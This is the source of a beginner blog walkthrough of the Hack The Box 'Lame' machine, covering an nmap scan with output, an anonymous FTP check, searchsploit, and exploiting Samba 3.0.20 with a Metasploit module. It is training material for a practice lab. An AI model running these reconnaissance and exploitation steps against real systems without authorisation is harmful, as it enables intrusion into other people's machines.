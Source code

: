 +++
author = "Jake Rice"
title = "Lame is Cool"
date = "2022-06-04"
description = ""
tags = [
    "HTB",
    "CTF_Walkthrough",
]

featureImage = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Lame_logo.png"
thumbnail = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Lame_logo.png"
shareImage = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Lame_logo.png"

+++
Clever titles for days. This walkthough of the Lame box is another begginner friendly entry level HTB. We'll explore a little anonymous FTP, and find out more about Samba. You can find the walkthrough video down below!

<!--more-->
---
## Startup

This is an entry level beginner freindley box, so the walkthrough is going to be the same. With that being said, the first step that other walkthoughs always skip over is spinning up the box and getting connected. While it is easy once you know how to do it if you don't know how you'll never be able to get started. Feel free to skip to the next section if you already know how to do this.

HTB has 2 options when it comes to completing their boxes. You can spin up a machine via HTB, or connect your own using OpenVPN. I prefer to connect my because of the customizations and different tools I have on my Kali machine, but if you want here is where to find the HTB Attack Box.

The first step if you are connecting via OpenVPN is to first make sure you have OpenVPN installed on your device. Either start typing the command see if it autofills, or if using Kali run:
```bash
sudo apt install openvpn
```
Once you are sure is installed in the same place where you see the attack box you can select OpenVPN. Change the server if desired and then download the file. Find the file location and run the following command:
```bash
openvpn insert/filepath/here
```

After you have connected you may have to refresh the page in order for the connect box to turn green and show your HTB IP. After that the last step is to find the Jerry box and start it up.
{{% notice note "Heads Up"%}}
That IP in the green box will be the IP you use for yourself during interactions with this box. Do not use your actual IP.
{{% /notice %}}

---

## Intelligence Gathering

The first thing I always like to do is run NMap. Here is the NMap scan I ran and a breakdown of the flags I used.
```bash
nmap -sT -sV -Pn -p- -A -T3 tar.get.ip.add -oA /home/kali/HTB/WU/Lame/nmap/scans
```
{{% notice tip "NMAP Flags"%}}
-sT = TCP Connect() Scan

-sV = OS Version

-Pn = Scan all ports, and don't ping. (Scans ports no matter what)

-p- = All ports

-A = All

-T3 = Speed level. (Options 1-5 with 1 being slowest and 5 fastest)

-oA = output namp in the three formatss to the specified file path.
{{% /notice %}}

While that is running let's go ahead and see if we can find anything at the IP. Open up a web browser and put in the target machines IP address. We don't get any results, but we'll check a couple of the usual directories just in case. I searched around using /admin /login /user /signin /contact and got nothing, so lets dive in to those NMap results.
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-06-04 22:53 EDT
Nmap scan report for 10.10.10.3
Host is up (0.033s latency).
Not shown: 65530 filtered tcp ports (no-response)
PORT     STATE SERVICE     VERSION
21/tcp   open  ftp         vsftpd 2.3.4
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to 10.10.14.9
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      vsFTPd 2.3.4 - secure, fast, stable
|_End of status
22/tcp   open  ssh         OpenSSH 4.7p1 Debian 8ubuntu1 (protocol 2.0)
| ssh-hostkey: 
|   1024 60:0f:cf:e1:c0:5f:6a:74:d6:90:24:fa:c4:d5:6c:cd (DSA)
|_  2048 56:56:24:0f:21:1d:de:a7:2b:ae:61:b1:24:3d:e8:f3 (RSA)
139/tcp  open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp  open  netbios-ssn Samba smbd 3.0.20-Debian (workgroup: WORKGROUP)
3632/tcp open  distccd     distccd v1 ((GNU) 4.2.4 (Ubuntu 4.2.4-1ubuntu4))
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Aggressive OS guesses: DD-WRT v24-sp1 (Linux 2.4.36) (92%), OpenWrt White Russian 0.9 (Linux 2.4.30) (92%), Linux 2.6.23 (92%), Belkin N300 WAP (Linux 2.6.30) (92%), Control4 HC-300 home controller (92%), D-Link DAP-1522 WAP, or Xerox WorkCentre Pro 245 or 6556 printer (92%), Dell Integrated Remote Access Controller (iDRAC5) (92%), Dell Integrated Remote Access Controller (iDRAC6) (92%), Linksys WET54GS5 WAP, Tranzeo TR-CPQ-19f WAP, or Xerox WorkCentre Pro 265 printer (92%), Linux 2.4.21 - 2.4.31 (likely embedded) (92%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Unix (Samba 3.0.20-Debian)
|   Computer name: lame
|   NetBIOS computer name: 
|   Domain name: hackthebox.gr
|   FQDN: lame.hackthebox.gr
|_  System time: 2022-06-04T22:55:49-04:00
|_clock-skew: mean: 2h00m06s, deviation: 2h49m45s, median: 3s

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   32.78 ms 10.10.14.1
2   32.81 ms 10.10.10.3

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 176.96 seconds
```

So we've got two items that really catch my eye in that NMap scan. Item one is the port 21 Anonymous FTP, and item two is the Samba ports 139 and 445. Lets start off by looking into port 21 first.

---
## Port 21 - Anonymous FTP

In the NMap scan the first thing that should catch your eye is that port 21 FTP is allowing Anonymous FTP. Anonymous FTP essentially means we can log in wihout having a username or password. We will connect using the user name anonymous with no password.
```bash
ftp anonymous@tar.get.ip.add 
```
{{% notice note "Heads Up"%}}
The username being used is the one before the @ sign.
{{% /notice %}}

Once you get in there you can do some snooping, but you're not able to find anything. Just to cover your bases login using ftp as the user too. Unfourtaenly, there is nothing there either. It appears anonymous FTP was a red herring. That's okay though, because we have another open port to check!

---

## Port 139/445 - Samba

First off what is Samba? Port 139 and 445 are SMB and used for file transfer, and back in the day it used to run on top of NetBIOS. Now days port 445 TCP can use it for file transfer. When looking for this specific version you do find that there is an exploit for it. This is the perfect time to introduce searchsploit.
```bash
searchsploit samba 3.0.2
```
When doing that we see several exploits, but the one we'll focus on is:

{{% notice tip "Searchploit Result"%}}
Samba 3.0.20 < 3.0.25rc3 - 'Username' map script' Command Execution (Metasploit) | unix/remote/16320.rb
{{% /notice %}}

Now that we've found an exploit it's time to... exploit!

---


## Exploiting the Vulnerablity

From our searchsploit result we see we can use this exploit via Metasploit. Lets get it spun up and dive in.
```bash
msfconsole
```
Once you have it started we can get it set up.

{{% notice tip "Metasploit Setup"%}}
1- Use show options

2-Set the rhost as the target IP (set rhost tar.get.ip.add)

3-Set the lhost as your IP (set lhost your.HTB.ip.add)(The IP given to you via HTB (it's in the green box))

4-Use exploit (exploit OR run)
{{% /notice %}}

It works!! Now time to dig around and find the flags. I'll leave that part for you, but feel free to message me if you need a hand!

---

## Walkthrough Video

{{< youtube vPQDacqDzm0 >}}

<br>